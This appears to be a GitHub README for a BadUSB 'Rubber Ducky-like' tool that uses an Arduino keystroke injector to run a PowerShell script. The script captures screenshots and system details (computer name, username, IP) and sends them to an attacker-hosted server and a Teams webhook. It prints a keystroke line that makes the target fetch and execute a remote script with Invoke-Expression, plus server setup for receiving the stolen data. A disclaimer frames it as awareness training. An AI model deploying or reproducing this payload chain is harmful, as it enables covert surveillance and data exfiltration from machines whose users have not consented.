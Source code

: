 # Rubber Ducky-like Attack Simulation Test/Tool

This tool allows you to capture a screenshot, gather system information, and send it to a Microsoft Teams channel using a webhook. It consists of two parts: an Arduino Ducky Script and a PowerShell script.

> :warning: **Disclaimer**
    This tool is intended for educational and testing purposes only. It is designed to simulate a USB attack for security engineering and awareness training. Use responsibly and only on systems you are authorized to test.

## Materials

- [HiLetgo BadUsb Beetle Bad USB Microcontroller ATMEGA32U4](https://www.amazon.com/gp/product/B07W5K9YHP/ref=ppx_yo_dt_b_asin_title_o01_s00?ie=UTF8&psc=1) (Amazon)

## Software Used

- [Arduino IDE](https://www.arduino.cc/en/guide/linux)
- [Ducky Script to Arduino Converter](https://elrock.gitlab.io/ducky2arduino/)


## Prerequisites

- An Arduino device with an ATMEGA32U4 Microcontroller.
- An internet-connected computer running Windows with PowerShell.
- Access to a Microsoft Teams channel with a configured incoming webhook.
- A web server where you can host the PowerShell script.
  
## Installation

#### 1. Install Python and pip:

```bash
sudo apt update
sudo apt install python3
sudo apt install python3-pip
```
#### 2. Clone or download this project to your computer.
```bash
git clone https://github.com/remoteicu/DuckDuino.git
```

#### 3. Open a terminal and navigate to the project directory.
##### Directory Structure
```bash
- app.py                 # Python script to start the web server that listens for a request
- uploads/               # Directory for uploaded files and the PowerShell script
    - run.ps1
- requirements.txt       # Python package dependencies
```
#### 4. Create a virtual environment (optional but recommended):
```bash
python -m venv venv
```
#### 5. Activate the virtual environment:
On macOS and Linux:
```bash
source venv/bin/activate
```
On Windows (PowerShell):
```powershell
.\venv\Scripts\Activate
```
#### 6. Install the required Python packages:

```bash
pip install -r requirements.txt
```
## Configuration

### Arduino Script

1. Copy the provided [Arduino Script](duino.ino) to your Arduino device using Arduino IDE.
2. Modify the delays and keypresses in the Script as needed for your setup.
> **_NOTE:_**  Make sure to select `Arduino Leonardo` under tools > board > boards manager, as well as select the correct COM Port.

### PowerShell Script
The script will:
   - Capture a screenshot of the target computer.
   - Gather system information (computer name, username, IP address).
   - Upload the screenshot and information to the web server.
   - Send a message with the screenshot link to the specified Microsoft Teams channel using the webhook.

> **_NOTE:_** Make sure to update the `$UploadUrl` and `$teamsWebhookUrl` variables in the PowerShell script to point to your server's upload endpoint and your teams webhook url.
  
## Usage
Run app.py:
```bash
python app.py
```
## Extra Options
1. Point your domain DNS to your remote server IP
2. Get an ssl certificate from letsencrypt by utalizing [certbot](https://certbot.eff.org/)
Install Certbot
```bash
sudo snap install --classic certbot
```
Prepare Certbot Command
```bash
sudo ln -s /snap/bin/certbot /usr/bin/certbot
```
Install the Cert
```bash
    sudo certbot certonly --standalone
```
3. Fill out the prompts with your domain information
4. Add the following to `app.py`
```python
from flask import Flask, request, jsonify, send_from_directory
import os
import json
import base64
from datetime import datetime
import pytz
from flask_sslify import SSLify

app = Flask(__name__, static_url_path='/uploads', static_folder='uploads')
sslify = SSLify(app)

# ... (Rest of your code remains the same)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=443, ssl_context=('/etc/letsencrypt/live/{{your-domain}}/fullchain.pem', '/etc/letsencrypt/live/{{your-domain}}/privkey.pem'))

```
5. Update your arduino script to use the FQDN of your server
```bash
# ...

Keyboard.print("$scriptUrl = 'https://{{your-domain}}/uploads/run.ps1'; Invoke-Expression -Command (Invoke-RestMethod -Uri $scriptUrl)");

# ... (Rest of your code remains the same)
```
7. Setup a Start and Stop shell script and put them in the root directory
Start.sh
```bash
#!/bin/bash

nohup python app.py > /dev/null 2>&1 &

echo "Flask app started with PID: $!"
```
Stop.sh
```bash
#!/bin/bash

# Find and kill the Flask app process
pid=$(pgrep -f "python app.py")
if [ -n "$pid" ]; then
  echo "Stopping Flask app (PID: $pid)..."
  kill "$pid"
  echo "Flask app stopped."
else
  echo "Flask app is not running."
fi
```


## Troubleshooting

- If you encounter issues, ensure that your Arduino device is properly configured and connected.
- Check the PowerShell script for any errors and make sure it is hosted on a reachable server.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
